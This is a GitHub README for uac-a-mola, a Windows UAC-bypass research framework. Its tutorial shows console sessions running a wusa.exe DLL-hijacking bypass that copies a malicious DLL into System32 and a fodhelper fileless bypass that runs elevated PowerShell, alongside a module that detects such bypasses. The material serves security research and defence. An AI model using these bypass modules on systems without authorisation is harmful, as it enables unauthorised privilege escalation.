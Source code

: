 # uac-a-mola
# Installation
To install uac-a-mola you have to perform the following actions:
1. **Download and install python 2.7.x for Windows** taking into account your particular infrastructure, you can find the binaries here: https://www.python.org/downloads/
2. **Add the python path to the _path_ enviroment variable**. You can do this by carrying out the following steps:
    1. Right click to _mycomputer_ and left click to properties
    2. Left click to Advance system configuration
    3. Lef click to Enviroment Variables
    4. In the _system variables_ box, double left click to _Path_ 
    5. Left clicking into _New_ add the following paths:
        * C:\Python27\
        * C:\Python27\scripts\
3. **Download uac-a-mola tool from github** by downloading the .zip file or by clonning the repo.
4. **Open the folder _uac-a-mola-master_ with a cmd and execute the following command**:
```
pip install -r requirements.txt
```
Uac-a-mola is now ready to rock! You can test its functionality by typing:
```
cd uacamola
python uacamola.py
```
# Tutorial
This is a brief section that explains the use of some of the uac-a-mola modules:

## Attack modules
Using the attack modules is something very simple that hardly requires explanation. The only thing you have to do is load the corresponding module in the framework using the **_load_** command, you can see the options or input parameters using the **_show_** command, with the **_run_** command the module is executed:
```
uac-a-mola> load .\modules\attack\dll_hijacking_wusa.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[dll_hijacking_wusa.py]> show

 Author
 ------
 |_Pablo Gonzalez (pablo@11paths or @pablogonzalezpe)

 Name
 ----
 |_Copy DLL with wusa.exe

 Description
 -----------
 |_It's used for copy a DLL in privilege path (wusa method win7/8/8.1)


 Options (Field = Value)
 -----------------------
 |_name_dll = comctl32.dll (name of DLL)
 |
 |_binary = compmgmtlauncher.exe (Path to the vulnerable binary)
 |
 |_malicious_dll = C:\Users\ieuser\Desktop\uac-a-mola\uacamola\payloads\comctl32\comctl32.dll (Path to a malicious dll)
 |
 |_name_folder = x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.7601.17514_none_41e6975e2bd6f2 (Name folder)
 |
 |_destination_path = C:\Windows\System32 (Destination path)


uac-a-mola[dll_hijacking_wusa.py]> run
[+] Running module...
creating path...
SUCCESS: done
copying dll in path...
SUCCESS: done
creating DDF file...
SUCCESS: done
creating CAB file...
SUCCESS: done
launch wusa.exe /extract
SUCCESS: done! got root? :D
removing path...
SUCCESS: done
uac-a-mola[dll_hijacking_wusa.py]>
```
And other example:
```
uac-a-mola> load modules\attack\fileless_fodhelper.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[fileless_fodhelper.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_Fileless Fodhelper

 Description
 -----------
 |_Fileless - Fodhelper bypass UAC

 Options (Field = Value)
 -----------------------
 |_instruction = C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -C echo mola > c:\pwned.txt (Elevated Code)

uac-a-mola[fileless_fodhelper.py]> set instruction powershell.exe
uac-a-mola[fileless_fodhelper.py]> run
[+] Running module...
```
## Mitigate modules
Using the mitigation methods is also quite simple, but they have a slightly more complex internal structure that will be explained in this section. In relation to its use, the first thing that must be done is to load the available mitigation module:
```
uac-a-mola> load modules\mitigation\bypass_mitigation.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[bypass_mitigation.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_This module will instrument the binaries selected and detect possible UAC bypasses

 Description
 -----------
 |_Bypass Mitigation

 Options (Field = Value)
 -----------------------
 |_[REQUIRED] password = None (Password for connection)
 |
 |_[REQUIRED] binlist_file = None (File with a list of binaries to hook, one on each line)
 |
 |_port = 5555 (Port for connection)

```
In this case, we will need to set a password that the agents will use to comunicate with the listener that will be executed in uacamola framework. We can find the agents in the path _uacamola/support/agents_ , opening that files we can see the password:
```
fodhelper_ag = Agent('fodhelper.exe', 'localhost', 5555, 'uacamola')
fodhelper_ag.send_forbidden("Software\\Classes\\ms-settings\\Shell\\Open\\command")
```
_uacamola_ will be the password used for authentication and comunication, but we can change it.
The other parameter required is a path to a file that contains a list of binaries to monitor, this binaries must have an agent.pyw file in the agents paths.
```
uac-a-mola[bypass_mitigation.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_This module will instrument the binaries selected and detect possible UAC bypasses

 Description
 -----------
 |_Bypass Mitigation

 Options (Field = Value)
 -----------------------
 |_password = uacamola (Password for connection)
 |
 |_binlist_file = bins.txt (File with a list of binaries to hook, one on each line)
 |
 |_port = 5555 (Port for connection)

uac-a-mola[bypass_mitigation.py]> run
[+] Running module...
[+] Executing the listener...

--- Press ENTER for quit mitigate mode ---
```
Just filling this fields and executing the _run_ command, uacamola will start monitoring all the activity related to UAC bypass in the binaries that appear in the list. If dangerous activity is detected, it will automatically prune the dangerous branch (of the file system or registry) and it will execute the binary in a secure way. For exiting this mode we just need to press de _ENTER_ key.

## Research modules
# Write your own modules


# Support
Please report any error to pablo.gonzalezperez@telefonica.com or just open an issue in GitHub. Your collaboration is appreciated!

#Contact

ideaslocas@telefonica.com

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE. WHENEVER YOU MAKE A CONTRIBUTION TO A REPOSITORY CONTAINING NOTICE OF A LICENSE, YOU LICENSE YOUR CONTRIBUTION UNDER THE SAME TERMS, AND YOU AGREE THAT YOU HAVE THE RIGHT TO LICENSE YOUR CONTRIBUTION UNDER THOSE TERMS. IF YOU HAVE A SEPARATE AGREEMENT TO LICENSE YOUR CONTRIBUTIONS UNDER DIFFERENT TERMS, SUCH AS A CONTRIBUTOR LICENSE AGREEMENT, THAT AGREEMENT WILL SUPERSEDE.

